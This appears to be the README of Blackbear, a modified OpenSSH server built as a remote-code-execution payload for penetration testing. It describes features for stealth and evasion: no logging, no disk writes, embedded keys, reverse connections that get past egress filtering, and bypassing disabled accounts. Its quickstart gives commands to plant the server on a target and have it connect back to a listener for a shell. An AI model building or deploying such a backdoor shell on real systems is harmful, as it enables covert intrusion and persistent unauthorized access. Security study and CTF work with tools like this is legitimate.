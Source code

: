# Blackbear: a fork of openssh-portable for penetration testing purposes.

Disclamer: Do not use in production or on any public facing server. Use only
in penetration testing context, while participating in capture the flag 
competitions or otherwise studying computer security. I've made modifications
which severly degrade the security of the server. 

## Blackbear project goals:

The blackbear server is to be used as main payload for RCE exploits.  

Main goal is to have reliable interactive shell access (must be able to run 
top, sudo, screen, vi, etc) as opposed to crafted reverse shells 
meterpreter which allow basic commands but fail at interactive ones.

Secondary goal is to implement reverse ssh shell operation.  This means 
than the server must be able to establish a tcp connection in addition to
its ability to listen for incoming connections and vice versa.  Once the
server can connect to the client, the ssh protocol happens as usual so
the client which received the connection gets a shell on the server.

As always, reverse shell operation is meant to bypass firewall with spotty
(if any) egress filtering.

Additionnal goals:

- be able to run under any user account, must not require root or elevated 
privileges.                                                                
- server must not touch the disk, host keys shall be generated on the fly 
(insecure), authorized keys and configuration must be encoded within the 
binary, no logging.  Only /dev/urandom and other required device files shall 
be used.
- must bypass any and all authentication mecanisms except public key
authentication.  Than is to be able to gain access even if
~/.ssh/authorized_keys does not exists, the account is disabled, the 
account has an invalid shell, etc.

## Quickstart

1. Install zlib and OpenSSL libraries and development files for your distribution

2. Run autoreconf to generate the configure scrip

3. The usual ./configure then make

4. Run the ssh client in listening mode

  e.g: listen on all interfaces, using port 8022
  ./ssh -i id_blackbearkey -r 0.0.0.0 -p 8022

5. Upload sshd binary on the target and run

  e.g: connect back to you on port 8022
  ./sshd -s LHOST -p 8022

You shall receive a shell with the priviledges of the account running sshd

INSTALL has more detailed compilation instructions.


